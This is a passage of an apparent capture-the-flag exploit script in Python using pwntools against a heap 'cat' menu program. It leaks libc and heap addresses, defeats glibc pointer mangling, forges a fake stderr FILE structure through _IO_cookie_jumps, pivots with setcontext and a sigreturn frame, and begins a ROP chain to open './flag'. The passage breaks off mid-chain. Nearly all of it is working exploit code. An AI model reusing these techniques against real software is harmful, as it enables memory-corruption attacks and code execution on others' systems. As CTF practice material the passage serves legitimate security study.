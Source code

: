 ```python
show_cat(1)
io.recv(9)
main_arena = u64(io.recv(6) + b'\x00\x00') - 96
base = main_arena - main_arena_base
stderr = base + libc.symbols['stderr']
tcbhead_t = base - 0x28C0
_IO_cookie_jumps = base + 0x215B80
print(hex(base))

add_cat(3, 0x440, b'colin')

delete_cat(4)
show_cat(1)
io.recv(25)
heap_base = u64(io.recv(6) + b'\x00\x00') - 0x290

edit_cat(1, p64(main_arena + 1104) * 2 + p64(0) + p64(tcbhead_t + 0x10))
add_cat(0, 0x430, b'colin')
pointer_guard = heap_base + 0xB00
print(hex(pointer_guard))
print(hex(heap_base))

# some useful gadgets
pcop = 0x1675B0 + base
pop_rdi = 0x2A3E5 + base
pop_rsi = 0x2BE51 + base
pop_rdx_rbx = 0x90529 + base
pop_rax = 0x45EB0 + base
syscall = 0x91396 + base
print(hex(pcop))
encrypted_addr = ((pcop ^ pointer_guard) << 0x11) & ((1 << 64) - 1) + \
                 (((pcop ^ pointer_guard) & (((1 << 64) - 1) - ((1 << 47) - 1))) >> 47)

# create fake _IO_FILE struct for fake stderr
payload = FileStructure()
payload.vtable = _IO_cookie_jumps + 0x38  # address of _IO_file_xsputn, vtable + 0x38 = _IO_cookie_read
payload._lock = base + 0x21BA70  # _IO_stdfile_1_lock
payload = bytes(payload)[0x10:]
payload += p64(heap_base + 0x28F0 + 0x100)
payload += p64(encrypted_addr)
payload = payload.ljust(0x100, b'\x00')
payload += p64(0)
payload += p64(heap_base + 0x28F0 + 0x100)
payload += p64(0) * 2
payload += p64(base + libc.symbols['setcontext'] + 61)

# use SigReturn frame to set rsp and rcx
frame = SigreturnFrame()
frame.rsp = heap_base + 0x28F0 + 0x300
frame.rip = pop_rdi + 1
payload += flat(frame)[0x28:]
payload = payload.ljust(0x300, b'\x00')

# construct ROP chain
# close the stdin, and it will reopen automatically
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(base + libc.symbols['close'])

# open file ./flag
payload += p64(pop_rdi)
payload += p64(heap_base + 0x28F0 + 0x400)
```